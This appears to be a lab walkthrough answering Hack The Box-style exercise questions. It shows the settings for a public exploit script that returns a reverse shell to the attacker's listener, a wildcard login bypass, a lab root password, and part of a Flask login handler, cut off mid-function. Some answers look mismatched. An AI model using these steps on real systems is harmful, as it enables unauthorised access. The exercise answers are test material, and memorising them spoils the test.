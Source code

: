 A quick cat review of the code indicates that the script needs some information. Set the correct information and launch the exploit.

```
if __name__ == '__main__':
    # Define some information
    lhost = '10.10.14.55' # HTB VPN IP
    lport = 4444 # A port not in use on localhost
    rhost = "10.129.247.30" # Target IP
    rport = 8500 # Target Port
    filename = uuid.uuid4().hex
```

Now execute it

```
python 50057.py

---- 

whoami
```

Results: arctic\tolis


**What is the full .aspx filename that Gobuster identified?**

```
transfer.asp
```


**After bypassing the login, what is the website "Powered by"?**

To bypass loging, enter * both in username and password. 

Results: w3.css


SSH to  with user "root" and password `"!x4;EW[ZLwmDx?=w"` **We placed the source code of the application we just covered at /opt/asset-manager/app.py inside this exercise's target, but we changed the crucial parameter's name. SSH into the target, view the source code and enter the parameter name that needs to be manipulated to log in to the Asset Manager web application.**

This is the source code:

```python
#!/usr/bin/python
import os
import sqlite3
from flask import Flask,request,session,render_template,redirect

app=Flask(__name__)
app.secret_key=os.urandom(24)

@app.route('/')
def index():
	return render_template('index.html')

@app.route('/login',methods=['GET','POST'])
def login():
	if request.method=='GET':
		return render_template('login.html')
	else:
		username=request.form['username']
		password=request.form['password']
		with sqlite3.connect("database.db") as con:
			cur = con.cursor()
			for i,j,k in cur.execute('select * from users where username=? and password=?',(username,password)):
				if k:
```